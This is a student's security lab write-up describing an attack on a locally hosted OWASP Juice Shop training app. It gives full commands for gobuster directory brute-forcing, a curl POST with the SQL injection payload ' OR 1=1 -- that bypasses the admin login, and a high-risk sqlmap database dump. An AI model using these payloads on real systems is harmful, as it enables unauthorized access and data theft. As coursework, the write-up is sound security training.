


# Security Assessment Report: Lab 6 - Web Application Hacking
**Environment:** Decentralized Academic Lab Network (Local Workstation Hosting)

## What We Did
We targeted the OWASP Juice Shop application hosted locally at 127.0.0.1. We initiated the assessment by running `gobuster` to brute-force hidden directories and uncover the underlying API endpoints, saving the output to a text file for our records. 

Once we mapped the API, we targeted the main login portal (`/rest/user/login`). Rather than using a browser, we manually forged a POST request using `curl`. By injecting a classic SQL payload (`' OR 1=1 --`) directly into the JSON email field, we successfully manipulated the backend database logic to bypass the password check and authenticate as the Administrator. 

For deeper data extraction, standard payloads against the backend search API kept throwing 500 errors due to the query structure. We pivoted to a highly targeted, automated scan using `sqlmap` to force the SQLite database to dump its tables. We finished the assessment by injecting an XSS payload to pop a client-side alert.

## Commands & Flags
* `gobuster dir -u http://127.0.0.1 -w /usr/share/wordlists/dirb/common.txt -o gobusters.txt`
    * `dir`: Sets gobuster to directory/file enumeration mode.
    * `-u`: Specifies the target base URL.
    * `-w`: Specifies the path to the wordlist used for brute-forcing paths.
    * `-o`: Directs the tool to write the discovered paths into `gobusters.txt` for our documentation.
* `curl -i -X POST http://127.0.0.1/rest/user/login -H "Content-Type: application/json" -d '{"email":"'\'' OR 1=1 --", "password":"a"}'`
    * `-i`: Includes the HTTP response headers in the output so we can verify the authentication token and status codes.
    * `-X POST`: Explicitly sets the HTTP request method to POST.
    * `-H`: Injects a custom header, telling the server we are sending JSON data.
    * `-d`: The data payload containing our malicious SQL injection.
* `sqlmap -u "http://127.0.0.1/rest/products/search?q=1" --dbms=sqlite --level=5 --risk=3 --batch --dump`
    * `-u`: Specifies the target URL and vulnerable parameter.
    * `--dbms=sqlite`: Forces the tool to strictly use SQLite payloads, saving fingerprinting time and reducing noise.
    * `--level=5`: Executes the highest level of tests and payloads available.
    * `--risk=3`: Authorizes the tool to use high-risk payloads, including heavy time-based queries.
    * `--batch`: Automatically answers "yes" or default to all tool prompts to keep the scan running unattended.
    * `--dump`: Instructs the tool to extract and download the database table entries.

## The Results
We completely compromised the web application's backend infrastructure. We successfully mapped the API, bypassed authentication by manually crafting malicious web requests, dumped sensitive tables from the SQLite database, and proved client-side execution via Cross-Site Scripting (XSS).

### 1. API & Directory Enumeration

*Figure 1: Gobuster rapidly enumerating the local web server to map hidden directories and locate the backend API endpoints.*

### 2. Manual SQL Injection (Authentication Bypass)

*Figure 2: Using curl to manually forge a POST request, injecting a SQL payload into the JSON email field to successfully bypass the login check as the Administrator.*

> **Note:** Full console output and command results have been logged to `gobuster.txt` for reference.

